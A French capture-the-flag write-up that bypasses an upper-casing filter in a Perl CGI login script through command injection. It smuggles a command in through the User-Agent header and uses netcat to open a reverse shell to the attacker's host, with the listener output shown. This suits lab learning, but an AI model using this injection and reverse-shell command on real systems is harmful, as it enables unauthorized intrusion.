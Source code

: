 ```perl
                print("Your login was accepted<br/>");
        } else {
                print("Your login failed<br/>");
        }
        print("Would you like a cookie?<br/><br/></body></html>\n");
}

htmlz(login(param("username"), param("password")));
```

On devine immédiatement la présence d'une injection de commande via la ligne qui appelle `egrep` mais le passage en majuscules et le retrait des espaces et ce qui s'en suit est génant.

Ma première idée a été que peut être je pourrais passer une commande en hexadécimal sans utiliser `xxd` ou une quelconque commande avec une fonctionnalité obscure de bash du genre `$(\xDE\xAD\xBE\xEF)` mais je n'ai rien trouvé de tel.

Je me suis donc concentré sur l'idée de faire exécuter une commande en n'utilisant que des majuscules et caractères spéciaux.

En utilisant une variable d'environnement (qui sont généralement en majuscules) j'espérais pouvoir appeller un path sous mon contrôle. Mettons qu'il y ait une variable `TMP` égale à `/tmp` dans l'environnement je pourrais tenter d'appeller `$TMP/BACKDOOR`. Malheureusement il n'y avait rien de tel. Il ne restait qu'à voir quelles autres variables le script CGI avait à sa disposition.

J'ai créé une instance de `thttpd` pour moi sur la VM et appelé le script suivant :

```perl
#!/usr/bin/env perl

print "Content-type: text/html\n\n";
print "<pre>\n";

foreach $key (sort keys(%ENV)) {
  print "$key = $ENV{$key}<p>";
}
print "</pre>\n";
```

J'ai ainsi retrouvé les variables classiques comme `HTTP_USER_AGENT`, `HTTP_ACCEPT_LANGUAGE`, etc.

En plaçant la commande à exécuter dans le `User-Agent` il me suffit de sortir du double quote de la commande et de faire interpréter la variable. Le serveur `thttpd` semble couper l'URL sur les points virgules j'ai eu donc recours au caractère `&` à la place.

```bash
$ curl "http://192.168.56.97:1616/index.cgi?username=%22%26%24HTTP_USER_AGENT%26%23&password=123" -A "nc.traditional -e /bin/bash 192.168.56.1 9999"
<html><head><title>Login resuls</title></head><body>Your login failed<br/>Would you like a cookie?<br/><br/></body></html>
```

soit l'injection `"&$HTTP_USER_AGENT&#`

J'obtiens mon reverse shell :

```bash
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:59833.
id
uid=983(flag16) gid=983(flag16) groups=983(flag16)
getflag
You have successfully executed getflag on a target account
```
